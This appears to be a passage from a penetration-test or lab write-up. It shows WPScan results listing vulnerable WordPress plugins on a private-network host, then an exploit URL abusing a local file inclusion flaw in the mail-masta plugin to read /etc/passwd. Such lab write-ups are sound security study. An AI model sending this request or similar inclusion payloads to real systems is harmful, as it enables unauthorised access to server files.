 ```
 |  - http://192.168.201.23/wordpress/wp-content/plugins/reflex-gallery/, status: 200
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Reflex Gallery <= 3.1.3 - Arbitrary File Upload
 |     Fixed in: 3.1.4
 |     References:
 |      - https://wpscan.com/vulnerability/c2496b8b-72e4-4e63-9d78-33ada3f1c674
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4133
 |      - https://www.exploit-db.com/exploits/36374/
 |      - https://packetstormsecurity.com/files/130845/
 |      - https://packetstormsecurity.com/files/131515/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_reflexgallery_file_upload/


[+] site-editor
 | Location: http://192.168.201.23/wordpress/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 | Readme: http://192.168.201.23/wordpress/wp-content/plugins/site-editor/readme.txt
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://192.168.201.23/wordpress/wp-content/plugins/site-editor/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.201.23/wordpress/wp-content/plugins/site-editor/readme.txt

```
(and more interesting results)

### Local File Intrusion
- I  decided to check on the LFI to see if i could get some important info and found some interesting exploit

1. https://www.exploit-db.com/exploits/50226

- Exploiting it through the url of site, decide to fetch the /etc/passwd file
```
http://192.168.201.23/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
